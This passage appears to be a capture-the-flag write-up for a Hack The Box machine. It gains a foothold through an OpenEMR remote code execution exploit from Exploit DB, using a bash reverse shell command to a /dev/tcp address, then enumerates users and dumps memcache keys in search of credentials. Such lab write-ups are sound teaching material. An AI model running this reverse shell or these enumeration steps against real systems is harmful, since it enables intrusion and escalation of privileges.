 We'll grab the python script from Exploit DB and run it with the URL, username, and password, along with our chosen command.

```
$ python rce_openemr.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.179/4444 0>&1'
```

In this case, it'll call back to our box with a shell.

![](images/foothold.png)

Success, we've gained a foothold. Enumerating the `/etc/passwd` file reveals two users are available, `luffy` and `ash`. Enumerating doesn't reveal a lot, but listing the processes reveals that `memcache`, a cache for data for websites, is running, which may contain some sensitive information that we can use to escalate to another user.

```
$ ps -aux
```

A quick search reveals how to dump `memcache` and [retrieve the keys](https://lzone.de/blog/How-to%20Dump%20Keys%20from%20Memcache) which may prove useful.

To access the `memcache`, we'll use `telnet`. The port for this is 11211.

```
$ telnet localhost 11211
```

[This website](https://lzone.de/cheat-sheet/memcached) has a great cheat-sheet on `memcache`, but the command we want is `lru_crawler`, which will dump the available keys.

```
> lru_crawler metadump all
key=account exp=-1 la=1593896101 cas=31 fetch=no cls=1 size=75
key=file exp=-1 la=1593896101 cas=32 fetch=no cls=1 size=70
key=passwd exp=-1 la=1593896101 cas=33 fetch=no cls=1 size=74
key=user exp=-1 la=1593896101 cas=34 fetch=no cls=1 size=68
END
```

We'll grab the user key, to see if it is anything new.

```
> get user
VALUE user 0 5
luffy
END
```
